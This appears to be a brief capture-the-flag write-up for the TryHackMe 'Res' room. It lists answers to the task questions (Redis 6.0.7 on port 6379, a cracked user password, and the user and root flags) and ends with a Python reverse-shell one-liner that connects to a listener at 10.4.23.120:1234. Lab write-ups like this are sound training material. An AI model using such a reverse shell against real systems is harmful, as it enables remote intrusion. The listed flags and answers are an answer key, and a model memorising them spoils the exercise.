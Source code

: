 # TryHackMe Res

> Saikat Karmakar | AUG 23 : 2021

---

## Task 1

1. Scan the machine, how many ports are open?
```
2
```
2. What's is the database management system installed on the server?
```
redis
```
3. What port is the database management system running on?
```
6379
```
4. What's is the version of management system installed on the server?
```
6.0.7
```
5. Compromise the machine and locate user.txt
```
thm{red1s_rce_w1thout_credent1als}
```
6. What is the local user account password?
```
beautiful1
```
7. Escalate privileges and obtain root.txt
```
thm{xxd_pr1v_escalat1on}
```

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.23.120",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```